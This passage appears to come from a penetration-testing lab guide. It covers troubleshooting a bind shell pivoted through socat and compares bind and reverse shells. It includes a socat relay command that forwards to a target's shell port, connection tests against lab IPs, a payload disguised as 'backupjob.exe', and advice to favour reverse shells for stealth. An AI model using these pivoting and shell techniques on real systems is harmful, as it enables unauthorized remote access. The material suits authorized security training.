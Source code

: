 **1. Bind Shell Not Listening**
```bash
# Check if payload is running on Windows
netstat -an | findstr :8443

# Verify process is active
tasklist | findstr backupjob.exe
```

**2. Socat Forward Not Working**
```bash
# Test connectivity to bind shell
nc -v 172.16.5.19 8443

# Check socat process
ps aux | grep socat
netstat -tlnp | grep 8080
```

**3. Handler Connection Fails**
```bash
# Test connection to socat listener
telnet 10.129.202.64 8080

# Verify handler configuration
show options
```

### **Debugging Commands**

```bash
# Enable socat debugging
socat -d -d TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443

# Monitor network connections
tcpdump -i any port 8080 or port 8443

# Check Windows firewall
netsh advfirewall show allprofiles
```

---

## **20. Bind vs Reverse Shell Decision Matrix**

### **Use Bind Shells When:**
✅ **Firewall blocks outbound** connections  
✅ **Multiple sessions needed** to same target  
✅ **Persistent access required** despite payload restarts  
✅ **Network architecture** favors inbound connections  

### **Use Reverse Shells When:**
✅ **Firewall blocks inbound** connections (most common)  
✅ **NAT/Proxy environments** present  
✅ **Stealth is priority** (outbound less suspicious)  
✅ **Standard penetration testing** scenarios  
